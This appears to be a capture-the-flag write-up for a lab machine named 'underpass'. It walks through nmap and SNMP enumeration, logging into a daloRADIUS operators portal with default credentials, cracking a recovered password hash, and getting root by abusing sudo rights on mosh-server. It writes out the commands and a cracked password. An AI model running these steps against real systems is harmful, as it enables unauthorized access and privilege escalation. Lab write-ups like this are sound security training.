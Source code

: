 
starting with nmap

```bash
# Nmap 7.94SVN scan initiated Sat Dec 21 20:11:10 2024 as: /usr/lib/nmap/nmap -sC -sV -p- -T4 -oN nmap 10.129.248.201
Warning: 10.129.248.201 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.248.201 (10.129.248.201)
Host is up (0.090s latency).
Not shown: 65420 closed tcp ports (reset), 113 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec 21 20:26:56 2024 -- 1 IP address (1 host up) scanned in 945.64 seconds
➜  underpass git:(main) ✗
```


just an apache server , trying to fuzz but no result .

I was clueless so I ran another scan against UDP ports

```bash
sudo nmap -sU -T4 -oN nmap_udp 10.129.79.195 -Pn
```

![[Pasted image 20241221235520.png]]

let's enumerate SNMP 


```bash
snmpwalk -v2c -c public 10.129.79.195
```

![[Pasted image 20241221232505.png]]


so we got domain and `daloradius` which is a CMS

![[Pasted image 20241221232613.png]]


I used this https://github.com/lirantal/daloradius/blob/master/  , to enumerate website 

so I found some files like http://underpass.htb/daloradius/Dockerfile


![[Pasted image 20241221232838.png]]

I tried the default creds against http://underpass.htb/daloradius/app/users/login.php but useless .

after some search in GitHub , another login portal was discovered 
http://underpass.htb/daloradius/app/operators/login.php

login with default creds 


we can find a list of users 

![[Pasted image 20241221233105.png]]


![[Pasted image 20241221233128.png]]

[crackstation](https://crackstation.net/) to crack the hash 


`underwaterfriends`

![[Pasted image 20241221233256.png]]



### root



```bash
sudo -l
```

![[Pasted image 20241221233338.png]]

when we `mosh-server` we got KEY and port

![[Pasted image 20241221233419.png]]


using `mosh-client` we can get root

```bash
 MOSH_KEY=S1bavDXgiegwtNo04fZYVQ  mosh-client  127.0.0.1 60001
```


![[Pasted image 20241221233613.png]]
